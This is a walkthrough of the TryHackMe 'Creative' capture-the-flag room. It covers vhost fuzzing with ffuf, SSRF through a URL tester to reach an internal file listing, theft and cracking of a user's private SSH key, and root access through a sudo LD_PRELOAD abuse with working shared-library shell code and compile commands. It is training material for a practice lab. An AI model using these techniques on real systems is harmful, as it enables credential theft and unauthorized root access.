# Creative CTF - TryHackMe Room
# **!! SPOILERS !!**
#### This repository documents my walkthrough for the **Creative** CTF challenge on [TryHackMe](https://tryhackme.com/room/creative). 
---


after first scan we see 2 open ports: 22 and 80



using ffuf to find vhosts 

```
ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u http://creative.thm -H 'Host: FUZZ.creative.thm' -fs 178
```



we found `beta`

on the website there is a url tester



if we start python server and enter our address we got hit





i tested grabbing the reverse shell but it didnt seem to work

i also tested `http://127.0.0.1` and we got the response

i used zap proxy to fuzz diffrent port numbers and found port 1337 open



we see file listing working on the port 1337



by looking at `http://127.0.0.1:1337/home` we see user saad

we can find saad private ssh key by going to `http://127.0.0.1:1337/home/saad/.ssh/id_rsa`



the key has a passphrase 

using john to crack the password



now we have user access and user flag



after looking at linpeas output we might have saad password 


looking at sudo -l we can run ping as root, but ping cant be exploited, the part that we will be exploiting is LD_PRELOAD



i asked chatGPT about this priv esc and it suggested

```
$ echo 'void __attribute__((constructor)) init() { setgid(0); setuid(0); system("/bin/bash"); }' > /tmp/root.c
$ gcc -shared -o /tmp/root.so -fPIC /tmp/root.c
$ sudo LD_PRELOAD=/tmp/root.so ping

```

it worked but it seems to block other commands



i found better way to do this on this site `https://www.hackingarticles.in/linux-privilege-escalation-using-ld_preload/`

we need to use:

```
$ cd /tmp
$ nano shell.c
$ gcc -fPIC -shared -o shell.so shell.c -nostartfiles
$ sudo LD_PRELOAD=/tmp/shell.so ping
```

shell.c code
```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/sh");
}
```


now we got root shell and root flag



# MACHINE PWNED
